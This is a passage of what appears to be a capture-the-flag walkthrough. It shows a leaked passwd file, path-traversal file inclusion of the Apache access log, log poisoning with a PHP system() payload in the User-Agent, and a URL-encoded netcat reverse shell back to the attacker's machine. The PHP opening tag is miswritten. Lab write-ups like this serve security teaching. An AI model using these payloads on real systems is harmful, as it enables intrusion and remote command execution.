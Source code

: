     backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    giuseppe:x:1000:1000:giuseppe,,,:/home/giuseppe:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

The user ***'giuseppe'*** is on the remote machine.  
Since this site is running on ***apache2*** let's try to view it's log files and try to  poison them.

Going to ***http://10.0.0.17/planet/My_H1dd3n_S3cr3t/file.php?file=../../../../../../../var/log/apache2/access.log*** we can see all the requests to the remote server. Let's use ***curl*** and add some PHP code as a header so it is executed once we open the log file. 

    # curl http://10.0.0.17 -A "<php? system($_GET['cmd'])?>"

Now we can run arbitrary commands on the remote machine and get a reverse shell on our local machine. But since we are adding the payload in the url let's encode it.

    payload: nc 10.0.0.27 4444 -e /bin/bash

    url encoding: %6e%63%20%31%30%2e%30%2e%30%2e%32%37%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68

>

    Remote Machine:

    # curl "http://10.0.0.17/planet/My_H1dd3n_S3cr3t/file.php?file=../../../../../../../var/log/apache2/access.log&cmd=%6e%63%20%31%30%2e%30%2e%30%2e%32%37%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68"

    Local Machine:

    # nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.17] 44968
    whoami
    www-data

We are now logged in to the remote machine as the user ***'www-data'***. Let's try to get higher privileges.
